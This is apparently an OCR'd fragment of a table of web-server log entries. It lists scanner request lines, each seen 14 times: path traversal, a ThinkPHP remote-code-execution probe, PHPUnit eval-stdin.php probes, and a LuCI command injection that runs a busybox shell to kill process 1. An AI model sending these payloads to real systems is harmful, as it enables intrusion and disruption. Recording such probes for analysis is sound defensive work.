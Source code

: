 |  61 |                    14 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  62 |                    14 | GET /index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
|  63 |                    14 | GET /V2/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|  64 |                    14 | GET /app/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
|  65 |                    14 | GET /backup/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|  66 |                    14 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60%2Fbin%2Fbusybox+%2Fbin%2Fsh+-c+%2Fbin%2Fkill+1%60) HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |